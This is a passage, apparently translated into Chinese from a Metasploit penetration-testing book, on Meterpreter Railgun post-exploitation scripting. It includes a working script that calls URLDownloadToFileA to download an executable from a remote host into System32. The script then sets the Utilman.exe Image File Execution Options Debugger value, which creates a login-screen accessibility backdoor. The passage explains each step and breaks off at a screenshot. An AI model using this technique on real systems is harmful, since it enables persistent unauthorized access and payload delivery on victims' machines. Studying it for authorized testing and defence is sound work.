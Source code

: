 将代码保存在名为`urlmon.rb`的文件中，放在`/scripts/meterpreter`目录下。

上述脚本向`C:\WINDOWS\system32\urlmon.dll`文件添加了一个引用路径，其中包含所有浏览所需的函数，以及下载特定文件等功能。我们将此引用路径保存为`urlmon`的名称。接下来，我们使用 DLL 文件的名称作为第一个参数，我们将要挂钩的函数的名称作为第二个参数，即`URLDownloadToFileA`，然后是所需的参数，向 DLL 文件添加一个函数。代码的第一行检查 DLL 函数是否已经存在于 DLL 文件中。如果已经存在，脚本将跳过再次添加该函数。如果调用应用程序不是 ActiveX 组件，则将`pcaller`参数设置为`NULL`；如果是，则设置为 COM 对象。`szURL`参数指定要下载的 URL。`szFileName`参数指定从 URL 下载的对象的文件名。`Reserved`始终设置为`NULL`，`lpfnCB`处理下载的状态。但是，如果不需要状态，则应将此值设置为`NULL`。

现在让我们创建另一个脚本，该脚本将利用此功能。我们将创建一个后渗透脚本，该脚本将下载一个免费文件管理器，并将修改 Windows OS 上实用程序管理器的条目。因此，每当调用实用程序管理器时，我们的免费程序将代替运行。

我们在同一目录下创建另一个脚本，并将其命名为`railgun_demo.rb`，如下所示：

```
client.railgun.urlmon.URLDownloadToFileA(0,"http://192.168.1.10 /A43.exe","C:\Windows\System32\a43.exe",0,0) 
key="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" 
syskey=registry_createkey(key) 
registry_setvaldata(key,'Debugger','a43.exe','REG_SZ') 
```

如前所述，脚本的第一行将调用自定义添加的 DLL 函数`URLDownloadToFile`，并提供所需的参数。

接下来，我们在父键`HKLMSOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Options`下创建一个名为`Utilman.exe`的键。

我们在`utilman.exe`键下创建一个名为`Debugger`的`REG_SZ`类型的注册表值。最后，我们将值`a43.exe`分配给`Debugger`。

让我们从 Meterpreter 运行此脚本，看看情况如何：

![](img/811f4a49-d537-441c-b9f0-7b9e0d639357.png)

一旦我们运行`railgun_demo`脚本，文件管理器将使用`urlmon.dll`文件下载，并放置在`system32`目录中。接下来，创建注册表键，以替换实用程序管理器的默认行为，运行`a43.exe`文件。因此，每当从登录屏幕按下辅助功能按钮时，`a43`文件管理器将显示并作为目标系统上的登录屏幕后门。

让我们看看从登录屏幕按下辅助功能按钮时会发生什么，如下截图所示：
